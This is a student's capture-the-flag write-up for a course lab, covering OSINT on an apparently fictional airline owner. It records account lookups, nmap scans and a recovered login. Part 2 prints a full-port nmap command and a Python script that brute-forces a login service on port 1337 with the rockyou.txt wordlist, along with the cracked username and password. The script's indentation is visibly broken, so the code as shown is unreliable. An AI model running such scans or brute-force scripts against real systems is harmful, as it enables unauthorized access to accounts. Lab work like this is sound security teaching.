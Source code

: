 Writeup 2 - OSINT (Open Source Intelligence)
======

Name: Hope Winovich
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Hope Winovich

## Assignment 2 writeup

### Part 1 (45 pts)

1.   Fred Krueger

2. Reddit - google searched `kruegster1990` and found 'u/kruegster1990' account
stwity.com - google searched `kruegster1990` and found his location is in Silver Spring, MD, he has 4 tweets, he has one follower and is following one person, his account was created on 12/8/2018, the ID associated with the account is 1028770124772397061,
cornerstoneairlines.co - googled this website that is on the stwity website and got to the cornerstone airline's website where Fred Krueger is the owner and his email is listed as kruegster1990@tutanota.com
Instagram - kruester1990 (looked it up on instagram)
Twitter - kruegster1990 (looked it up on twitter)

3.   I typed 'nslookup www.cornerstoneairlines' into my terminal and the ip address comes up as 142.93.118.186.

4.   !-- CMSC389R-{h1dden_fl4g_in_s0urce} --

5.   Site24x7 also shows the same ip address as above
  142.93.117.193 is the ip address in the source code for the admin page
  view-source:http://cornerstoneairlines.co/index.html

6. By doing an nmap scan on the IP address of the admin page, I found that port 80 is open, "80/tcp   open   http".
on the IP address 142.93.118.186. 22 is also an open port
I also found that 2222 was open and 1337 was open.

7.   I searched the Ip address of the admin page on onyphe and got that the server is "Apache/2.4.18 (Ubuntu)"

8. *(BONUS)*

### Part 2 (55 pts)

  For this part of the assignment, I ran the command "nmap -p 1-65535 -sV -sS -T4 142.93.117.193" and tried to run all of the open ports which were 80,1337 and 2222 and the host 1337 worked to bring up the prompt "username:". I then wrote the code for the bruteforce program and ran it against the rockyou.txt file. I got the username as kruegster from his email on his website and then the password was pokemon. Once I had the server open I cd'd into home and then flight records and then I did the command "cat AAC27670" because it was on his Instagram. The flag is "CMSC389R-{c0rn3rstone-air-27670}".

  import socket
  import re
  import sys

  host = '142.93.117.193'
  port = 1337
  wordlist= "/Downloads/rockyou.txt"

  def brute_force(username,pswd):

      s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      print "Trying "+username+": "+pswd
      s.connect((host,port))
      data = s.recv(1024)
      	print(str(data))
      s.send(username + '\n')
      data = s.recv(1024)
      	print(str(data))
      s.send(pswd + '\n')
      data = s.recv(1024)
      	print(str(data))
      s.close()
      return str(data)
  username = "kruegster"

  with open("rockyou.txt") as f:
      for pswd in f:
              	result = brute_force(username, pswd)
              	print(result)
     	 if "Fail" not in result:
     		 print "Password Found: "+pswd
     		 sys.exit(0)
